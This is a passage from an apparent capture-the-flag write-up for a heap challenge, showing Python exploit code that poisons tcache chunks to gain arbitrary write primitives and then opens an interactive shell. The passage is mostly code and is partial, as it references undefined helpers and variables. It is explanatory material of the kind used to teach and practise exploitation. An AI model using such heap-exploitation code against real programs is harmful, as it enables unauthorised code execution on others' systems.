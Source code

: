 ```py
    0, 0,
    0, 0x21,
    target0, 0,
    0, 0x41,
    target1, 0,
)
edit(p, 7, payload)
```

Lastly, we free the poisoned tcache chunks and get our write primitives! Upon exit, we will get our shell.

```py
purchase(p, b"b"*0x10)
purchase(p, b"c"*0x30)

purchase(p, b"\x00"*0x10) # 4
purchase(p, b"\x00"*0x30) # 5

edit(p, 4, write0)
edit(p, 5, write1)

# trigger exit
p.sendline(b"1")

p.interactive()
```
![pwned](/images/posts/hackac-2024-anshin/flag.png)
